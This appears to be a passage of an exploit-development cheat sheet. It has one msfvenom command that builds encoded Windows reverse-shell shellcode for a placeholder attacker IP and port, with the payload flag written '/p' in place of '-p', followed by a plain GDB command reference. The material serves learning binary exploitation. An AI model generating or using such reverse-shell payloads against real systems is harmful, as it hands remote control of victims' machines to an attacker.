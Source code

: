 {% code overflow="wrap" %}
```bash
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
{% endcode %}

## GDB

### インストール
```bash
apt-get install gdb
```
### パラメータ
```bash
-q # No show banner
-x <file> # Auto-execute GDB instructions from here
-p <pid> # Attach to process
```
### 手順
```bash
run # Execute
start # Start and break in main
n/next/ni # Execute next instruction (no inside)
s/step/si # Execute next instruction
c/continue # Continue until next breakpoint
p system # Find the address of the system function
set $eip = 0x12345678 # Change value of $eip
help # Get help
quit # exit

# Disassemble
disassemble main # Disassemble the function called main
disassemble 0x12345678 # Disassemble taht address
set disassembly-flavor intel # Use intel syntax
set follow-fork-mode child/parent # Follow child/parent process

# Breakpoints
br func # Add breakpoint to function
br *func+23
br *0x12345678
del <NUM> # Delete that number of breakpoint
watch EXPRESSION # Break if the value changes

# info
info functions --> Info abount functions
info functions func --> Info of the funtion
info registers --> Value of the registers
bt # Backtrace Stack
bt full # Detailed stack
print variable
print 0x87654321 - 0x12345678 # Caculate

# x/examine
examine/<num><o/x/d/u/t/i/s/c><b/h/w/g> dir_mem/reg/puntero # Shows content of <num> in <octal/hexa/decimal/unsigned/bin/instruction/ascii/char> where each entry is a <Byte/half word (2B)/Word (4B)/Giant word (8B)>
x/o 0xDir_hex
x/2x $eip # 2Words from EIP
x/2x $eip -4 # $eip - 4
x/8xb $eip # 8 bytes (b-> byte, h-> 2bytes, w-> 4bytes, g-> 8bytes)
i r eip # Value of $eip
x/w pointer # Value of the pointer
```